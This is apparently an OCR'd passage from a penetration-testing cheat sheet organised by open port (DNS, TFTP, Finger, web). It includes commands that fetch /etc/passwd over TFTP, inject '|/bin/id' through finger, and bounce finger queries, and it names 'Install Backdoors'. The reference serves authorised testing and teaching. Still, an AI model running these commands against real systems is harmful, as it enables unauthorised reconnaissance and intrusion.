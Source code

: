             txdns -rt -t domain_name
            txdns -x 50 -bb domain_name
            txdns --verbose -fm wordlist.dic --server ip_address -rr SOA domain_name -h c: \hostlist.txt
    Examine Configuration Files
        host.conf
        resolv.conf
        named.conf

TFTP port 69 open

    TFTP Enumeration
        tftp ip_address PUT local_file
        tftp ip_address GET conf.txt (or other files)
        Solarwinds TFTP server
        tftp – i <IP> GET /etc/passwd (old Solaris)
    TFTP Bruteforcing
        TFTP bruteforcer
        Cisco-Torch

Finger Port 79 open

    User enumeration
        finger 'a b c d e f g h' @example.com
        finger admin@example.com
        finger user@example.com
        finger 0@example.com
        finger .@example.com
        finger **@example.com
        finger test@example.com
        finger @example.com
    Command execution
        finger "|/bin/id@example.com"
        finger "|/bin/ls -a /@example.com"
    Finger Bounce
        finger user@host@victim
        finger @internal@external

Web Ports 80, 8080 etc. open

    Fingerprint server
        Telnet ip_address port
        Firefox plugins
            All
                firecat
            Specific
                add n edit cookies
                asnumber
                header spy
                live http headers
                shazou
                web developer
    Crawl website
        lynx [options] startfile/URL Options include -traversal -crawl -dump -image_links -source
        httprint
        Metagoofil
            metagoofil.py -d [domain] -l [no. of] -f [type] -o results.html
    Web Directory enumeration
        Nikto
            nikto [-h target] [options]
        DirBuster
        Wikto
        Goolag Scanner
    Vulnerability Assessment
        Manual Tests
            Default Passwords
            Install Backdoors